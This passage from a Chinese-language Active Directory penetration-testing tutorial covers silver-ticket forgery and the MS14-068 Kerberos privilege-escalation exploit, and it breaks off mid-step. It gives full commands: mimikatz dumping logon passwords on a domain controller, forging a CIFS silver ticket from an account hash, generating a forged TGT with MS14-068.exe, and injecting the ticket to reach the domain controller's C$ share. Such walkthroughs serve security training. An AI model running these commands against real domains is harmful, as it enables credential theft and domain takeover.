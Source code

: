 导入成功后，可以获取域管权限：

```
Dir \\dc.abc.com\c$
```

![](https://image.3001.net/images/20200304/15833021917278.png!small)

**3.4.3 白银票据**

黄金票据和白银票据的一些区别：

Golden Ticket：伪造 TGT，可以获取任何 Kerberos 服务权限，且由 krbtgt 的 hash 加密，金票在使用的过程需要和域控通信

白银票据：伪造 TGS，只能访问指定的服务，且由服务账号（通常为计算机账户）的 Hash 加密 ，银票在使用的过程不需要同域控通信

1. 在域控上导出 hash

mimikatz log “privilege::debug” “sekurlsa::logonpasswords”

![](https://image.3001.net/images/20200304/15833022389491.png!small)

2、利用 Hash 制作一张 cifs 服务的白银票据：

kerberos::golden /domain:ABC.COM /sid: S-1-5-21-3912242732-2617380311-62526969 /target:DC.ABC.COM /rc4:f3a76b2f3e5af8d2808734b8974acba9 /service:cifs /user:strage /ptt

![](https://image.3001.net/images/20200304/15833022478731.png!small)

cifs 是指的文件共享服务，有了 cifs 服务权限，就可以访问域控制器的文件系统:

![](https://image.3001.net/images/20200304/15833022549963.png!small)

**3.4.4MS14-068**

MS14-068 域提权漏洞，对应补丁编号：kb3011780，利用该漏洞可以将任何一个域用户提权至域管理员权限。

1、在普通域用户机器上直接访问域控制器的 C 盘目录

![](https://image.3001.net/images/20200304/15833022661721.png!small)

2、利用 MS14-068 伪造生成 TGT：

```
MS14-068.exe -u strage@test.com -s S-1-5-21-457432167-2946190674-2696793547-1103 -d 192.168.140.140 -p Admin@str
```

![](https://image.3001.net/images/20200304/15833022761821.png!small)

3、利用 mimikatz 将工具得到的 TGT 票据写入内存，创建缓存证书：

```
mimikatz.exe "kerberos::ptc TGT_strage@test.com.ccache" exit
```

![](https://image.3001.net/images/20200304/15833022973102.png!small)![](https://image.3001.net/images/20200304/15833023108324.png!small)

4、重新执行 dir 命令：
